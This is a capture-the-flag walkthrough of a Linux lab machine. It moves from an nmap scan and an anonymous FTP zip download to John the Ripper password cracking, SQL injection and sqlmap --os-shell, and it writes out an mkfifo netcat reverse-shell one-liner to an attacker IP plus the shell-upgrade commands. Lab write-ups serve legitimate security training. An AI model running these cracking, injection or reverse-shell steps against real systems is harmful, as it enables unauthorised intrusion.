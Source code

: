 #Linux #FTP #SQL #SUID

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.17.227
  ```

* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

Open Ports

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

![image](https://user-images.githubusercontent.com/99097743/169863478-0bfbc6c9-0ec3-49bf-a48e-13fdbe28576a.png)

**FTP**

Nmap scan highlights that **anonymous FTP login is allowed**

We are able to download the **backup.zip**

![image](https://user-images.githubusercontent.com/99097743/169863972-2e3d4672-6476-4db9-a294-0e3977a458df.png)

We have a situation here, what is the password of the zip file?

![image](https://user-images.githubusercontent.com/99097743/169865265-8d628052-84c0-4743-880b-7b51031655c9.png)

No worries, John the Ripper to rescue!

https://github.com/openwall/john

John the Ripper jumbo - advanced offline password cracker, which supports hundreds of hash and cipher types, and runs on many operating systems, CPUs, GPUs, and even some FPGAs

Here are the steps:


1. Generate the hash of the zipfile and save it as hash

```sh
zip2john backup.zip > hash
```

2. Use **John** to crack the password using commonly used words (rock.txt). If the password does not show up on the terminal, you can see the password in jonh.pot

```sh
john -w=/usr/share/wordlists/rockyou.txt hash
```

Thanks John! We can now unzip the **backup.zip**

* index.php  --> there is a username:password pair with MD5 hash: You can use one of the free services for Decrypt & Encrypt MD5
* style.css

Using the credentials we can log in to the Car Catalogue

![image](https://user-images.githubusercontent.com/99097743/169875305-9ca24fb3-ecf4-4df9-bf70-96ca635e8de5.png)


**SQL Injection**

* If you try a single quote (') inside the search box --> ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
* If you try ' OR '1' = '1  --> No ERROR message: brings all cars as 1=1 always!


Let's use the **sqlmap** for this lab. 

https://github.com/sqlmapproject/sqlmap.git

Automatic SQL injection and database takeover tool

![image](https://user-images.githubusercontent.com/99097743/169881600-07143523-6f87-4718-8a3c-f4e193bf331a.png)

Here are the steps:


1. Capture the GET file of a sample search with BurpSuite as **new.req**

![image](https://user-images.githubusercontent.com/99097743/169882864-38319cd4-af40-4ee0-b1c7-f196263b2886.png)


2. Run the **sqlmap** tool

```sh
sqlmap -r new.req
```
* -r means REQUESTFILE: Load HTTP request from a file

![image](https://user-images.githubusercontent.com/99097743/169883168-7c07a0ba-86fd-4f12-afeb-2c924713107e.png)

3. Run the **--os-shell** command

```sh
sqlmap -r new.req --os-shell
```
* --os-shell means prompt for an interactive operating system shell
*  If asked "Do you want to retrieve the command standard output? [Y/n/a]" --> Click a = ALWAYS

4. Do not forget to active the listener

![image](https://user-images.githubusercontent.com/99097743/169885449-68625d07-68cc-4ef4-9b7c-2d9099f73384.png)

5. Get the reverse shell payload, revshells.com can help us here, we can try **mkfifo**

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.26 87 >/tmp/f
```

![image](https://user-images.githubusercontent.com/99097743/169886969-48f93363-4338-43c0-ab9b-5120fedddf3e.png)

6. We can improve the shell and make it fully interactive using the following commands

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
stty raw -echo
fg
export TERM=xterm
```
It worked!

![image](https://user-images.githubusercontent.com/99097743/169887719-ad875cea-7937-4477-8af5-66954b722d72.png)

We can now capture the user flag!

![image](https://user-images.githubusercontent.com/99097743/169892144-9a64989d-8b83-482a-8989-72c3c4080914.png)

